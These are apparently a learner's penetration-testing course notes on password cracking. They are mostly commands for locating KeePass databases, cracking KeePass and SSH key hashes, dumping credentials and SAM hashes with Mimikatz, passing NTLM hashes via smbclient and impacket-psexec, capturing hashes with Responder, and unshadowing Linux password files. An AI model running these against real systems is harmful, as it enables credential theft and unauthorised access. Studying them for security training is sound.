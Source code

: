 ## Section 2 Password Cracking Fundamentals
### 15.2.4 Password Manager
- Command to find keepass kdbx files:
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
- Cracking with keepass with john
		1. Get the kdbx file and remove "Database." string from the firstline
```
keepass2john <FILE> keepass.hash
```
```
hashcat --help | grep -i "keepass"
```
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
### 15.2.5 SSH Private Key Passphrase
- Cracking ssh id_rsa file
```
chmod 600 id_rsa
```
```
ssh2john id_rsa > ssh.hash 
```
```
hashcat -h | grep -i "ssh"
```
- Remove the leading strings/characters in the hash file and run hashcat OR make sure the following is at the top of the ssh.rule file first
```
[List.Rules:sshRules]
```
- Add ssh rules to john.conf with 
```
sudo sh -c 'cat <HASHCAT_RULE_FILE> >> /etc/john/john.conf'
```
- Crack it with john
```
john --wordlist=<WORDLIST> --rules <RULES> <HASHFILE>
```
## Section 3 Working with Password Hashes
### 15.3.1 Cracking NTLM
- Good rule for NTLM
```
hashcat -m 1000 <HASHFILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Mimikatz commands to get SeDebugPrivilege access rights enabled use 
```
privilege::debug
```
- Extract plaintext passwords with password hashes from all available sources with 
```
sekurlsa::logonpasswords
```
- Extract NTLM hashes from the SAM with BUT FIRST USE the following to elevate to SYSTEM user privileges
```
token::elevate
```
```
lsadump::sam
```
### 15.3.2 Passing NTLM
- Pass the hash with smbclient 
```
smbclient \\\\IP\\SHARE -U <USERNAME> --pw-nt-hash <HASH>
```
- PsExec with impacket and NTLM_V1
```
impacket-psexec -hashes 00000000000000000000000000000000:<HASH> <USERNAME>@<IP>
```
### 15.3.3 Cracking Net-NTLM_V2
- Responder can capture authentication handshakes and NTLM hashes
	- To run it you have to specify the interface with the following to capture and print the hash for you to crack or use when you try to use SMB or another vector to connect
```
sudo responder -l <INTERFACE>
```
- Vector to connect with the following from a target where you have a command shell
```
dir \\<IP>\secrets
```
## John
```
unshadow /etc/passwd /etc/shadow > <HASHLIST>
```
```
john <HASHES> --format=<TYPE> --wordlist=<WORDLIST>
```
```
rm /etc/john/john.pot
```
- Rules
- /etc/john/john.conf has all the rules
- Add the following section with the header followed by hashcat style rules
```
[List.Rules:rulename]
```
```
john --rules=<RULENAME>
```